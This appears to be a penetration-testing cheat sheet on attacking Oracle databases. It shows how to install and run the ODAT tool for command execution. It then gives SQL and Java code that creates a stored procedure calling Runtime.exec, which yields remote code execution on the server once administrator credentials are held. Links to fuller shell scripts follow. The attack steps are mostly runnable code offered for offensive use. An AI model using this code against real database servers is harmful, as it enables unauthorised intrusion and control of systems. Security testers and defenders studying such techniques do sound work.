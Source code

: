 ## Install ODAT

```bash
git clone https://github.com/quentinhardy/odat.git
cd odat
./odat.py #It shouldn't be problems in Kali
```

## Execute Code via Java Stored Procedure

```bash
./odat.py java -s <IP> -U <username> -P <password> -d <SID> --exec COMMAND
```

## RCE: Java Store Procedure

So, imagine that you have the administrator account information. In this case, a very popular way to execute your command on the server is to write a ‘java stored’ procedure. This is done in three stages. First, create a Java class called ‘oraexec’. To do this, connect via ‘sqlplus’ terminal and write:

```sql
create or replace and resolve java source named "oraexec" as
import java.lang.*;
import java.io.*;
  public class oraexec
  {
    public static void execCommand(String command) throws IOException
    {
      Runtime.getRuntime().exec(command);
    }
  }
/
```

Next, write a PL/SQL wrapper for this class:

```sql
create or replace procedure javacmd(p_command varchar2) as language java name 'oraexec.execCommand(java.lang.String)'; /
```

That’s it. Now, to execute a command, all you need is just to send the following query:

```sql
exec javacmd('command');
```

Note that when using the above procedure, we cannot see the results of executed command, however, you can redirect the output to a file and read it. You can find the full code of the shell that allows to read and write files:

[raptor_oraexec.sql](https://secybr.com/assets/file/oracle/raptor_oraexec.sql)

However, there is a [more sophisticated script] (goo.gl/EuwPRU) that handles the command output, but it has a larger size [here](https://oracle-base.com/articles/8i/shell-commands-from-plsql).
